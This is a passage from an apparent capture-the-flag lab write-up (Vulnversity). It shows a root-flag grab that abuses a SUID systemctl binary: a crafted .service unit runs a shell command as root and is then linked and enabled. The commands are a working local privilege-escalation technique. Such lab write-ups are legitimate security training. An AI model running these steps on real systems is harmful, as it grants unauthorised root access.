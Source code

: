 ```
./systemctl enable --now $TF
```

Now we see output of the command id in the file we just created.

<img src="images/01.Vulnversity/15.png" height="300">

Copy and paste it in the shell but make sure to modify the command we need to run inorder to get the root flag.

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
```

Now create symlink and enable it.

```
/bin/systemctl link $TF
```

```
/bin/systemctl enable --now $TF
```

<img src="images/01.Vulnversity/16.png" height=300>

We got the root flag!!!
